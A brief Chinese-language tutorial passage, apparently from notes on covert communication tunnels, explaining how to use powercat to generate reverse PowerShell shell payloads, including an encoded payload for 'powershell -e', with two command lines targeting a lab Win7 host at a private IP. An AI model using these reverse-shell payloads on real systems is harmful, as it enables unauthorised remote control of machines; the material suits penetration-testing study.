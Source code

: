 ![](./img/隐藏通信隧道基础知识/58.png)

如果想生成一个反弹Powershell的Payload那么就用下面的命令生成：

```
powercat -l -p 8000 -ep -v -g >> shell.ps1
```

用Powercat也可以直接生成经过编码的Payload。

在Win7中执行命令，即可得到编码后的Pyload：（-g生成payload）（-ge生成经过编码的payload，可以直接使用powershell -e 进行反弹shell）

```
powercat -c 192.168.2.13（win7） -p 9999 -ep -ge > 1.txt
```
